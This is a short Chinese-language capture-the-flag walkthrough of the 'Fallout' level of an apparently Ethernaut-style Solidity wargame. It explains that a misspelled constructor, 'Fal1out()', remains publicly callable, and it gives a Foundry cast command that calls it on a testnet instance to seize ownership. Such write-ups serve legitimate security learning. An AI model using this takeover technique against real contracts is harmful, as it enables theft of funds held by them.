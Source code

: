 ### 第2关：Fallout

TIPS: 在 0.4.22 版本之前, 构造函数被定义为合约的同名函数（该语法在0.5.0之后弃用了）。

如以下代码所示，合约作者准备把Fal1out() 作为 合约 Fallout 的构造函数，以在合约部署时调用。但很不巧，笔误写错了。所以我们直接调用它即可。
```solidity
contract Fallout {
    ...
    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }
    ...
}
```
先点击 Get new instance, F12 查看本关的合约地址 0xAAAAAAAAAAAAAAAAAAAA ，然后使用 Foundry Cast 调用 Fal1out(),即可成为该合约的 owner：

 ```shell
cast send 0xAAAAAAAAAAAAAAAAAAAA "Fal1out()" --rpc-url=https://sepolia-rollup.arbitrum.io/rpc --private-key=XXXXXXX
```

 点击 Submit Instance, 过关。
